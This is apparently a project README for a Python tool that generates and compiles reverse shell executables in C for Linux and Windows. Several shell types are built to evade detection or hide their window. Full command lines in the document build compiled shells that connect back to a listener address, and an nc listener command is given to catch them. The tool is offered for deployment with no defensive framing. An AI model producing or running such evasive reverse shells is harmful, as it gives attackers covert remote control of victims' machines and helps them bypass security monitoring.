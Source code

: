 # C-Shell-Creator

## Overview

**C-Shell-Creator** is a Python-based tool designed to generate various types of reverse shell payloads in C language for both Linux and Windows systems. The script provides different reverse shell types tailored to evade detection, ensure stealth, or offer stability and interactivity.

The tool also supports optional compilation of the generated C code, making it easier for the user to produce ready-to-use executables. 

## Features

- **Cross-Platform Support:** Generate reverse shells for both Linux and Windows systems.
- **Multiple Shell Types:** Choose from simple, stealth, evasion, and stable (for Linux) shell types.
- **Automatic Compilation:** Compile the generated C code directly from the script for easy deployment.
- **Interactive Shells:** Provides an option to create interactive reverse shells for Linux systems.

## Installation

### Dependencies

To use the C-Shells-Creator script, you will need the following dependencies:

1. **Python 3:** The script is written in Python 3.
2. **GCC (GNU Compiler Collection):** Required for compiling C code on Linux.
3. **MinGW (Minimalist GNU for Windows):** Required for cross-compiling C code for Windows on a Linux system.

#### Python Dependencies

No additional Python libraries are required outside the standard library.

#### Installation on Linux

1. **Install Python 3** (if not already installed):
    ```bash
    sudo apt-get install python3
    ```

2. **Install GCC**:
    ```bash
    sudo apt-get install gcc
    ```

3. **Install MinGW for Windows Cross-Compilation** (optional):
    ```bash
    sudo apt-get install mingw-w64
    ```

## Usage

To use the script, execute the Python file with the appropriate arguments:

```bash
python3 C-shells-creator.py --ip <listener_ip> --port <listener_port> --type <shell_type> --system <target_system> --output <output_file> --compile
```

### Arguments

- **--ip**: IP address of the listener (required).
- **--port**: Port of the listener (required).
- **--type**: Type of shell (`simple`, `stealth`, `evasion`, `stable_linux`) (required).
- **--system**: Target system (`linux`, `windows`) (required unless `stable_linux` type is selected).
- **--output**: Output file name (optional).
- **--compile**: Compile the generated C code (optional).

### Available Shell Types

1. **Simple:**
    - A basic reverse shell that connects to the specified listener and redirects standard I/O to the socket.
  
2. **Stealth:**
    - A reverse shell designed to be more covert by hiding the command window on Windows or by using `/bin/bash -i` for Linux.

3. **Evasion:**
    - A reverse shell that encodes the command using Base64 and decodes it at runtime, aimed at evading basic detection methods.

4. **Stable Linux:**
    - A Linux-only reverse shell designed for full interactivity and stability, utilizing `/bin/sh -i`.

### Example Commands

#### 1. Generate a Simple Reverse Shell for Linux

```bash
python3 C-shells-creator.py --ip 192.168.1.10 --port 4444 --type simple --system linux --output simple_shell.c --compile
```

#### 2. Generate a Stealth Reverse Shell for Windows

```bash
python3 C-shells-creator.py --ip 192.168.1.10 --port 4444 --type stealth --system windows --output stealth_shell.c --compile
```

#### 3. Generate an Evasion Reverse Shell for Linux

```bash
python3 C-shells-creator.py --ip 192.168.1.10 --port 4444 --type evasion --system linux --output evasion_shell.c --compile
```

#### 4. Generate a Stable Reverse Shell for Linux

```bash
python3 C-shells-creator.py --ip 192.168.1.10 --port 4444 --type stable_linux --output stable_shell.c --compile
```

#### 5. Generate an Evasion Reverse Shell for Windows

```bash
python3 C-shells-creator.py --ip 192.168.1.10 --port 4444 --type evasion --system windows --output evasion_shell.c --compile
```

## Listener Setup

For Linux reverse shells, especially for the `stable_linux` type, it's recommended to use `rlwrap` with `nc` for better interactivity:

```bash
rlwrap nc -nlvp 4444
```

### Notes

- **Windows Compilation:** If you intend to cross-compile for Windows, ensure `mingw-w64` is installed.
- **Listener Configuration:** For stable shells, ensure the terminal is configured correctly by using `rlwrap` or `stty` commands.

## License

This project is licensed under the MIT License.
